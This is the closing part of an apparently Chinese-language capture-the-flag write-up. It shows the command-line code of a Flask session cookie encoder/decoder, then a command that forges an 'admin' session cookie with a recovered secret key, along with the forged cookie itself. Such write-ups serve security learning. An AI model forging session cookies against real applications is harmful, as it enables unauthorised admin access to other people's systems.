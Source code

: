 ```
    # Args are only relevant for __main__ usage

    ## Description for help
    parser = argparse.ArgumentParser(
        description='Flask Session Cookie Decoder/Encoder',
        epilog="Author : Wilson Sumanang, Alexandre ZANNI")

    ## prepare sub commands
    subparsers = parser.add_subparsers(help='sub-command help', dest='subcommand')

    ## create the parser for the encode command
    parser_encode = subparsers.add_parser('encode', help='encode')
    parser_encode.add_argument('-s', '--secret-key', metavar='<string>',
                               help='Secret key', required=True)
    parser_encode.add_argument('-t', '--cookie-structure', metavar='<string>',
                               help='Session cookie structure', required=True)

    ## create the parser for the decode command
    parser_decode = subparsers.add_parser('decode', help='decode')
    parser_decode.add_argument('-s', '--secret-key', metavar='<string>',
                               help='Secret key', required=False)
    parser_decode.add_argument('-c', '--cookie-value', metavar='<string>',
                               help='Session cookie value', required=True)

    ## get args
    args = parser.parse_args()

    ## find the option chosen
    if (args.subcommand == 'encode'):
        if (args.secret_key is not None and args.cookie_structure is not None):
            print(FSCM.encode(args.secret_key, args.cookie_structure))
    elif (args.subcommand == 'decode'):
        if (args.secret_key is not None and args.cookie_value is not None):
            print(FSCM.decode(args.cookie_value, args.secret_key))
        elif (args.cookie_value is not None):
            print(FSCM.decode(args.cookie_value))
```

```
python session_encode.py encode -s "46.189843351464276" -t "{'username':'admin'}"

eyJ1c2VybmFtZSI6ImFkbWluIn0.ZzxRYg.tvKnErnnPCzfHmK6t8FMbMy87Ns
```

### FLAG

将得到的session进行替换，得到flag

![image-20241119165205779](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411191652842.png)



参考

https://blog.csdn.net/rabcdxb/article/details/119654409

https://blog.csdn.net/crisprx/article/details/107328520

https://blog.csdn.net/mochu7777777/article/details/105190181/
